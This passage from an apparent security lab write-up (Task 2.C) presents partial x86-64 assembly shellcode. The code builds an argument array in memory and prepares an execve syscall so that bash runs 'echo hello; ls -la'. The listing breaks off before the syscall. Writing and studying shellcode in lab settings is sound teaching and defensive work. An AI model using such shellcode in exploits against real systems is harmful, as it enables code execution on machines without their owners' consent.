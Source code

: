 
![Task 2.B.2](./img/Lab1/Task2.B.2.png)

### Task 2.C - Run a more complicated command

In this task, our goal was to execute a more complex run, involving multiple arguments.

```sh
$ /bin/bash -c "echo hello; ls -la"
```

For this, our approach was to combine XOR operations with more memory slots allocated. This was the content of the `mysh64.sh`:

```text
section .text
    global _start
        _start:
            BITS 64
            jmp short two
        one:
            pop rbx           
            xor rax, rax
            mov [rbx+9],  al
            mov [rbx+12], al
            mov [rbx+32], al  
            mov [rbx+33], rbx
            lea rcx, [rbx+10]
            mov [rbx+41], rcx
            lea rcx, [rbx+13]
            mov [rbx+49], rcx
            mov [rbx+57], rax
            mov rdi, rbx       
            lea rsi, [rbx+33]       
            xor rdx, rdx      
            xor rax, rax
            mov al, 0x3b        
```